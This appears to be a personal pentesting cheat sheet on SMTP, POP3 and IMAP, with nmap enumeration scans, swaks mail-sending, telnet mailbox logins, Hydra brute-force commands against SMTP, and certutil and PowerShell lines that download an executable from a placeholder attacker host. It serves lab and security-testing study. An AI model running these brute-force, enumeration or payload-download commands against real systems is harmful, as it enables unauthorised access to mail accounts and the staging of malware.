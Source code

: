## 🧠 **SMTP Enumeration & Pentesting Cheat Sheet**

---

### 🔍 **Basic Enumeration with Nmap**
```
nmap -sV -p 25,110,143,587 <target-ip>
```

- `25`, `587`: SMTP
- `110`: POP3
- `143`: IMAP

```
nmap -p 25 --script smtp-commands,smtp-enum-users <target-ip>
```

### 📤 **SMTP – Sending Emails**

**Using `swaks` (Swiss Army Knife for SMTP):**
```
swaks --to Dave.Wizard@supermagicorg.com \
      --from test@supermagicorg.com \
      --server <target-ip> \
      --auth LOGIN \
      --auth-user test@supermagicorg.com \
      --auth-password test \
      --data "Subject: Test\n\nThis is just a test email."

```

**One-liner with attachment:**
```
swaks --to Dave.Wizard@supermagicorg.com --from test@supermagicorg.com --server <ip> --auth LOGIN --auth-user test@supermagicorg.com --auth-password test --attach /path/to/file.txt
```

✅ _Status codes like `250 OK` and `235 authenticated` mean success._

### 📥 **Reading Emails**

- SMTP is **only for sending** emails.
- For **reading**, use:
    - **POP3 (Port 110)** – Downloads and removes from server
    - **IMAP (Port 143)** – Syncs with server


🛠 **Command-line tools to read emails:**

- `telnet <ip> 110` or `telnet <ip> 143`
- `openssl s_client -connect <ip>:110` (POP3s) or `:993` (IMAPs)
- `fetchmail`, `imap-client`, or `mailsync`
---

### 🔓 **Manual IMAP/POP3 Authentication**

**POP3 with Telnet:**
```
telnet <ip> 110
USER test@supermagicorg.com
PASS test
LIST
RETR 1
```
**IMAP with Telnet:**
```
telnet <ip> 143
a login test@supermagicorg.com test
a select inbox
a fetch 1 body[text]
```


### 🔐 **Attachment Handling**

Swaks can send attachments:
```
swaks --attach /path/to/file.txt
```

Windows download methods:
- `certutil.exe -urlcache -f http://<ip>/file.exe file.exe`
- PowerShell:

```
Invoke-WebRequest -Uri http://<ip>/file.exe -OutFile file.exe
```
### 🧪 **Testing Email Existence**

- If recipient doesn't exist and SMTP is correctly configured, server will reject:
```
250 OK   <- Valid user
550 No such user here <- Invalid user
```

🔓 **Hydra SMTP Brute Force Example**
```
hydra -L users.txt -P passwords.txt smtp://<target-ip> -V
```
🧪 **If Port 587 is Used (TLS SMTP)**
```
hydra -L users.txt -P passwords.txt -s 587 -S smtp://<target-ip> -V
```

![[Pasted image 20250421004929.png]]

Note this hydra command failed many times before working because of time out
